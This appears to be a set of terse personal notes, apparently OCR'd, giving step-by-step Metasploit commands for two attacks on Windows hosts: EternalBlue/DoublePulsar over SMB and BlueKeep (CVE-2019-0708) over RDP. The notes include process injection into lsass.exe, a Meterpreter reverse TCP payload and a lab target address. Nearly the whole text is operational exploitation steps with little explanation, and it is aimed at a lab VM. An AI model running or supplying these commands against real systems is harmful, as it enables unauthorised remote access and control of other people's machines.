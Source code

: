 	$ dpkg --add-architecture i386 && apt update && apt install wine32

	$ wine msiexec /i python-2.7.14.msi - execute as root ; download python 2.7.14 x86 msi (last one)

	$ ls -la - check the existance of .wine 

	$ git clone Eternalblue Doublepulsar and cd into the directory

	$ cp deps/ /usr/share/metasploit-framework/modules/exploits/windows/smb -r

	$ cp eternalblue_doublepulsar.rb/ /usr/share/metasploit-framework/modules/exploits/windows/smb

	$ use explots/windows/smb/eternalblue_doublepulsar

	$ show info

	$ set PROCESSINJECT lsass.exe - because we need to switch to x64

	$ set RHOSTS 172.16.116.133

	$ set TARGETARCHITECTURE x64

	$ set payload windows/x64/meterpreter/reverse_tcp

	$ show targets

	$ exploit

 	> shell

+ BlueKeep

-- RDP vulnerability

	$ nmap -sS 172.16.116.133 - to check if RDP 3389 is open

	$ msfconsole

	$ search bluekeep

	$ use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

	$ show info

	$ options

	$ set RHOSTS 172.16.116.133

	$ exploit - see if target is vulnerable

	$ use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

	$ show info

	$ show options

	$ set RHOSTS 172.16.116.133

	* the exploit will use by default a reverse tcp shell ; also, targets are only Win7 x64 OS ; should select the type of machine

	$ set target 2 - bacause it's on a VM

	$ exploit
